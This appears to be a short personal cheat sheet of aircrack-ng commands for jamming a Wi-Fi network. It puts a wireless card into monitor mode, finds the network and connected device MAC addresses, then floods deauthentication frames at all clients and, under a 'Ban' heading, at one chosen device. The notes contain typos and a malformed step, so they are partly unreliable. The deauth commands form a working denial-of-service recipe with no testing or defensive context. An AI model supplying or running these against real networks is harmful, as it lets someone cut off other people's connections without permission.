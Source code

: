 wlan0 or the interface you have
/usr/sbin/airmon-ng/
May require ((wlan0 or interface))mon 

sudo airmon-ng check kil
//kill conflicts
sudo airmon-ng start wlan0
//Start monitor mode

sudo airmon-ng wlan0mon 
//Reachable stations and network mac

airodump-ng --bssid 'network mac' --channel 'channel' wlan0
/// View conmected device mac 
/// Identify network channel

aireplay-ng --deauth 10000 -a 'network mac' wlan0
///Because no channel here
/// Send deauth (codex) to broadcast

##############
Ban
aireplay-ng --deauth 10000 -a 'network mac' -c 'device mac'  
